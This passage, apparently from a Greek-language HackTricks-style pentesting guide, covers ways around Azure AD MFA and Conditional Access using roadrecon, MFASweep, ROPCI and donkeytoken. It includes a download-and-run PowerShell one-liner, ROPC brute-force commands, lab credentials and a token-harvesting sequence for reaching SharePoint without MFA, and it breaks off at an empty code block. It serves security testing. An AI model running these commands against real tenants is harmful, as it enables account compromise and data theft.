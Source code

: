### [roadrecon](https://github.com/dirkjanm/ROADtools)

Αποκτά όλες τις πολιτικές
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

Το MFASweep είναι ένα σενάριο PowerShell που προσπαθεί να **συνδεθεί σε διάφορες υπηρεσίες της Microsoft χρησιμοποιώντας ένα παρεχόμενο σύνολο διαπιστευτηρίων και θα προσπαθήσει να προσδιορίσει αν είναι ενεργοποιημένο το MFA**. Ανάλογα με το πώς είναι διαμορφωμένες οι πολιτικές πρόσβασης και άλλες ρυθμίσεις πολλαπλής αυθεντικοποίησης, ορισμένα πρωτόκολλα μπορεί να καταλήξουν να παραμείνουν σε μία μόνο αυθεντικοποίηση. Έχει επίσης μια επιπλέον έλεγχο για τις ρυθμίσεις ADFS και μπορεί να προσπαθήσει να συνδεθεί στον τοπικό διακομιστή ADFS αν ανιχνευθεί.
```bash
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1").Content
Invoke-MFASweep -Username <username> -Password <pass>
```
### [ROPCI](https://github.com/wunderwuzzi23/ropci)

Αυτό το εργαλείο έχει βοηθήσει στην αναγνώριση παρακάμψεων MFA και στη συνέχεια στην κακή χρήση APIs σε πολλούς παραγωγικούς AAD ενοικιαστές, όπου οι πελάτες AAD πίστευαν ότι είχαν επιβληθεί MFA, αλλά η αυθεντικοποίηση με βάση το ROPC ήταν επιτυχής.

> [!TIP]
> Πρέπει να έχετε δικαιώματα για να καταγράψετε όλες τις εφαρμογές ώστε να μπορέσετε να δημιουργήσετε τη λίστα με τις εφαρμογές για brute-force.
```bash
./ropci configure
./ropci apps list --all --format json -o apps.json
./ropci apps list --all --format json | jq -r '.value[] | [.displayName,.appId] | @csv' > apps.csv
./ropci auth bulk -i apps.csv -o results.json
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Το Donkey token είναι ένα σύνολο λειτουργιών που στοχεύουν να βοηθήσουν τους συμβούλους ασφαλείας που χρειάζονται να επικυρώσουν τις Πολιτικές Πρόσβασης με Όρους, δοκιμές για πύλες Microsoft με ενεργοποιημένο 2FA κ.λπ..

<pre class="language-powershell"><code class="lang-powershell"><strong>git clone https://github.com/silverhack/donkeytoken.git
</strong><strong>Import-Module '.\donkeytoken' -Force
</strong></code></pre>

**Δοκιμάστε κάθε πύλη** αν είναι δυνατόν να **συνδεθείτε χωρίς MFA**:
```bash
$username = "conditional-access-app-user@azure.training.hacktricks.xyz"
$password = ConvertTo-SecureString "Poehurgi78633" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-MFATest -credential $cred -Verbose -Debug -InformationAction Continue
```
Επειδή το **Azure** **portal** **δεν είναι περιορισμένο**, είναι δυνατόν να **συλλεχθεί ένα token από το endpoint του portal για να αποκτηθεί πρόσβαση σε οποιαδήποτε υπηρεσία ανιχνεύθηκε** από την προηγούμενη εκτέλεση. Σε αυτή την περίπτωση, το Sharepoint αναγνωρίστηκε και ζητείται ένα token για την πρόσβαση σε αυτό:
```bash
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
Υποθέτοντας ότι το token έχει την άδεια Sites.Read.All (από το Sharepoint), ακόμη και αν δεν μπορείτε να αποκτήσετε πρόσβαση στο Sharepoint από το διαδίκτυο λόγω MFA, είναι δυνατόν να χρησιμοποιήσετε το token για να αποκτήσετε πρόσβαση στα αρχεία με το παραγόμενο token:
```bash
```